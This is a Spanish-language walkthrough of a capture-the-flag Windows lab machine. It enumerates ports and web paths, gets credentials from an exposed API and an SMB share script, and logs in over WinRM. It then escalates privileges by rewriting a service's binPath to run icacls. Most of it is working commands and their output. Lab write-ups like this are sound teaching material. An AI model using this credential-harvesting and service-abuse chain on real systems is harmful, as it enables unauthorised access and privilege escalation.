


## Table of contents

## Enumeración

La máquina Benahoare tiene la ip **10.0.2.59**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.59

Host is up (0.00049s latency).
Not shown: 65527 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: El Guanche Security \xC2\xB7 Central de Videovigilancia
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http          Microsoft IIS httpd 10.0
|_http-title: 403 - Forbidden: Access is denied.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0

Host script results:
| smb2-time: 
|   date: 2026-08-29T10:35:24
|_  start_date: N/A
|_nbstat: NetBIOS name: BENAHOARE-THL, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:dc:c3:61 (Oracle VirtualBox virtual NIC)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

### Puerto 80 (Web)

Accedemos con el navegador a la ip y nos encontramos una web de cámaras de seguridad. 



Enumeramos subdirectorios de la web empleando **ffuf**.

```bash
ffuf -c -u "http://10.0.2.59/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

 :: Method           : GET
 :: URL              : http://10.0.2.59/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

Support                 [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 11ms]
index.html              [Status: 200, Size: 16420, Words: 1471, Lines: 284, Duration: 94ms]
support                 [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 12ms]
```

Encontramos un subdirectorio **/support**, así que accedemos a ver su contenido.



Vemos el endpoint **/api/diagnostics.json** que se encuentra situado en el puerto 8080.


### Puerto 8080 (API Web)

Vamos a ver el contenido de dicho endpoint.

```bash
curl -s http://10.0.2.59:8080/api/diagnostics.json
{
  "service": "GuancheVMS Diagnostics API",
  "version": "4.2.1",
  "status": "running",
  "uptime_seconds": 486233,
  "host": {
    "hostname": "BENAHOARE-THL",
    "os": "Windows Server 2019 Standard",
    "service_account": "svc_camaras",
    "install_path": "C:\\Program Files\\GuancheVMS"
  },
  "cameras": [
    { "id": "CAM-01", "zone": "Recepcion", "status": "online",  "fps": 25 },
    { "id": "CAM-02", "zone": "Almacen",   "status": "online",  "fps": 25 },
    { "id": "CAM-03", "zone": "Parking",   "status": "online",  "fps": 25 },
    { "id": "CAM-04", "zone": "Muelle",    "status": "offline", "fps": 0  }
  ],
  "storage": {
    "retention_days": 30,
    "used_percent": 61
  },
  "notes": "Diagnostics endpoint. Internal use only. Do not expose service_account in production responses (ticket #4468)."
}
```

Se nos dice que la cuenta **svc_camaras** no deber ser expuesta en producción, por lo tanto, ya tenemos un usuario.

### Puertos 139 y 445 (SMB)

Enumeramos el contenido del **Server Message Block** (**SMB**) mediante una **null session**.

```bash
smbclient -N -L ///10.0.2.59

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Soporte_Tecnico Disk      Scripts y manuales de soporte
```

Tenemos un directorio **Soporte_Tecnico**. Nos conectamos a él con una **null session** y descargamos sus archivos.

```bash
smbclient //10.0.2.59/Soporte_Tecnico -N

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug  8 04:39:55 2026
  ..                                  D        0  Sat Aug  8 04:39:55 2026
  nota_soporte.txt                    A       89  Sat Aug  8 04:39:55 2026
  Reiniciar-Camaras.ps1               A      541  Sat Aug  8 04:39:45 2026
  
smb: \> get nota_soporte.txt 

smb: \> get Reiniciar-Camaras.ps1 
```

Revisando el script de Powershell, **Reiniciar-Camaras.ps1**, encontramos un servicio de la máquina y una contraseña.

```powershell
# =========================================================
# Script de mantenimiento - El Guanche Security S.L.
# Reinicio del servicio de camaras GuancheVMS
# Autor: Rayco (Sistemas)
# =========================================================
Write-Host "Reiniciando servicio de camaras..." -ForegroundColor Yellow
# Credenciales de la cuenta de servicio de camaras
$password = ConvertTo-SecureString "C4m4ras2023!" -AsPlainText -Force
Restart-Service -Name "GuancheVMS" -Force
Write-Host "Servicio reiniciado." -ForegroundColor Green
```

## Acceso Winrm
### Svc_Camara

Nos conectamos al servicio **Winrm** con las credenciales **svc_camaras**:**C4m4ras2023!**

```bash
evil-winrm-py -i 10.0.2.59 -u svc_camaras -p 'C4m4ras2023!'

PS C:\Users\svc_camaras\Documents> dir ../Desktop
    Directory: C:\Users\svc_camaras\Desktop

Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-a----         8/7/2026  11:27 AM             32 user.txt 
```

## Escalada de Privilegios
### Administrator

Vamos a consultar la información y el estado del servicio que aparecía en **Reiniciar-Camaras.ps1**

```bash
PS C:\Users\svc_camaras> sc.exe qc GuancheVMS
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: GuancheVMS
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\GuancheVMS\GuancheVMS.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : GuancheVMS Camera Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

PS C:\Users\svc_camaras> Get-Service -name "GuancheVMS"

Status   Name               DisplayName                           
------   ----               -----------                           
Stopped  GuancheVMS         GuancheVMS Camera Service  
```

Vemos que el servicio se encuentra parado y averiguamos el directorio en el que se encuentra el ejecutable.

Vamos a listar los permisos NTFS de **GuancheVMS.exe** para comprobar los permisos tiene nuestro usuario sobre el ejecutable.

```bash
PS C:\Users\svc_camaras> icacls 'C:\Program Files\GuancheVMS\GuancheVMS.exe'
C:\Program Files\GuancheVMS\GuancheVMS.exe NT AUTHORITY\SYSTEM:(I)(F)
                                           BUILTIN\Administrators:(I)(F)
                                           BUILTIN\Users:(I)(RX)
                                           APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                           APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Nuestro usuario no puede modificar **GuancheVMS.exe**, ya que se encuentra en el grupo **Users** que únicamente dispone de permisos de **Read & Execute** (**RX**) sobre el binario.

Procedemos a listar la **DACL** del servicio. Esta lista define qué usuarios o grupos tienen permisos para realizar determinadas operaciones sobre el servicio.

```bash
PS C:\Users\svc_camaras> sc.exe sdshow GuancheVMS

D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPLOCRRC;;;S-1-5-21-3365348192-2654475242-4043242444-1000)
```

Además, comprobamos el **SID** de nuestro usuario.

```bash
PS C:\Users\svc_camaras\Documents> whoami /user

User Name                 SID                                           
========================= ==============================================
benahoare-thl\svc_camaras S-1-5-21-3365348192-2654475242-4043242444-1000
```

La clave está en la **ACE** `(A;;CCDCLCSWRPWPLOCRRC;;;S-1-5-21-3365348192-2654475242-4043242444-1000)`.

La **ACE** define los permisos que tiene un usuario o grupo sobre un recurso.

En ella vemos que nuestro usuario, cuyo **SID** coincide con el especificado en la **ACE**, dispone del permiso **SERVICE_CHANGE_CONFIG** (**DC**) sobre el servicio. Esto nos permite modificar su configuración, incluido el **binPath**, pudiendo especificar el ejecutable que se ejecutará cuando el servicio sea iniciado.

Vamos a aprovecharnos de esta situación para modificar el **binPath** y hacer que **icacls** conceda permisos de **Read & Execute** (**RX**) al usuario **svc_camaras** sobre el directorio **C:\Users\Administrator**  y sus respectivos archivos y subdirectorios.

De esta forma, podremos leer la flag de root del directorio de Administrator. Para ello:

Modificamos el **binPath**.

```bash
PS C:\Users\svc_camaras\Documents> sc.exe config GuancheVMS binPath= 'cmd.exe /c icacls "C:\Users\Administrator" /grant "svc_camaras:(OI)(CI)RX"'

[SC] ChangeServiceConfig SUCCESS
```

**Nota:** Hay que dejar un espacio en blanco después del signo de igual de binPath.

E iniciamos el servicio de **GuancheVMS**. A pesar del mensaje de error, **icacls** se ejecuta correctamente.

```bash 
PS C:\Users\svc_camaras\Documents> sc.exe start GuancheVMS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

Ya podemos leer la flag de root.

```bash
PS C:\Users> dir C:\Users\Administrator\Desktop
    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-a----         8/8/2026   1:42 AM             35 root.txt 
```